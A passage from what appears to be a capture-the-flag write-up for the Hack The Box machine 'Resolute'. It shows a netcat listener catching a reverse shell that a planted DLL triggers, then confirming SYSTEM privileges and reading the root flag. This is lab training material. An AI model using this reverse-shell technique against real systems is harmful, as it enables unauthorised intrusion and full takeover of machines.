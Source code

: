 This triggers the DLL and I get a reverse shell as SYSTEM:

```
root@beholder:~/htb/resolute# rlwrap nc -lvnp 5555
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 10.10.10.169.
Ncat: Connection from 10.10.10.169:56778.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type c:\users\administrator\desktop\root.txt
e1d9487[...]
```